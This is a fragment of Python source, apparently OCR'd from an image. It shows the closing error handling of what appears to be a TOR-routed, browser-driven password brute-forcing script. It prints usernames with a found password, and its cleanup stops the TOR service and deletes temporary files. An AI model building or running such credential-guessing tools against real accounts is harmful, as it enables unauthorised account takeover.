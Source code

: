             except AssertionError: 
            
                print(G + ("  Username: {} \t| Password found: {}\n".format(username,password)) + W)

                self.stopTOR()

            except Exception as e:

                print(R + ("\nError : {}".format(e)) + W)

                driver.close()

                self.stopTOR()


if __name__ == '__main__':

    try:

        main()

    except KeyboardInterrupt:

        print(R + "\nError : Keyboard Interrupt" + W)

        os.system("rm -rf tmp/ geckodriver.log && service tor stop")

        exit(1)
